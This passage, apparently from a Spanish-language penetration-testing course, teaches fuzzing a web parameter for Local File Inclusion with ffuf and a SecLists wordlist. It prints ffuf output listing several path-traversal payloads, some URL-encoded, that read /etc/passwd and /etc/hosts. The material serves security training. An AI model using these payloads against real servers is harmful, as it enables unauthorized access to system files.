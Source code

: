 **Tip:** Para un escaneo más preciso, podemos limitar nuestro escaneo a los parámetros LFI más populares que se encuentran en este [enlace](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

---

## LFI Wordlists

Hasta ahora en este módulo, hemos estado creando manualmente nuestros payloads LFI para probar vulnerabilidades LFI. Esto se debe a que las pruebas manuales son más confiables y pueden encontrar vulnerabilidades LFI que de otro modo no serían identificadas, como discutimos anteriormente. Sin embargo, en muchos casos, puede que queramos realizar una prueba rápida en un parámetro para ver si es vulnerable a algún payload LFI común, lo que puede ahorrarnos tiempo en aplicaciones web donde necesitamos probar varias vulnerabilidades.

Hay una serie de [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) que podemos usar para este escaneo. Una buena wordlist es [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), ya que contiene varios bypasses y archivos comunes, por lo que es fácil realizar varias pruebas a la vez. Podemos usar esta wordlist para fuzzear el parámetro `?language=` que hemos estado probando a lo largo del módulo, como sigue:

```r
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

Como podemos ver, el escaneo arrojó una serie de payloads LFI que pueden usarse para explotar la vulnerabilidad. Una vez que tenemos los payloads identificados, debemos probarlos manualmente para verificar que funcionan como se espera y muestran el contenido del archivo incluido.

---